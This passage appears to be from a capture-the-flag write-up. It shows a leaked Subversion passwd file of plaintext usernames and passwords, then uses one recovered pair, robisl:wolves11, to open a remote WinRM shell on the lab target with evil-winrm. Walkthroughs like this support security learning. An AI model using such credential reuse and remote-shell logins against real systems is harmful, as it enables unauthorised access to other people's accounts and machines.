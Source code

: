 ```bash
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```
I can see that the working credentials for the user nathen are in this file. Looking at the user directories in C:\Users, there is a user called "robisl", who also has a matching password in this file. This means we most likely have a second set of credentials - `robisl:wolves11`

### 6. Access the user
I can now use WinRM to access the machine as the user.
```bash
kali@kali:~$ evil-winrm -u robisl -p wolves11 -i 10.10.10.203

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> whoami
worker\robisl
```
